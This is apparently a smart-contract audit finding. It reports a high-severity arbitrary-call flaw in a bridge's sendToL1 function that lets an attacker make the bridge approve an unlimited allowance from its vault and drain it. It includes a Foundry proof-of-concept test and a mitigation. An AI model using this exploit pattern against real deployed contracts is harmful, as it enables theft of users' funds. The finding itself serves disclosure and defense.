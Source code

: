 The L1BossBridge contract includes the sendToL1 function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the L1Vault contract.

The L1BossBridge contract owns the L1Vault contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concepts**

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
        uint256 initialBalanceVault = 1000 ether;
        deal(address(token), address(vault), initialBalanceVault);

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(msg.sender, address(0), 0);
        tokenBridge.depositTokensToL2(msg.sender, address(0), 0);

        bytes memory message = abi.encode(
            address(vault), //target
            0, // value
            abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
        vm.stopPrank();
    }
```

**Recommended mitigation**

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.
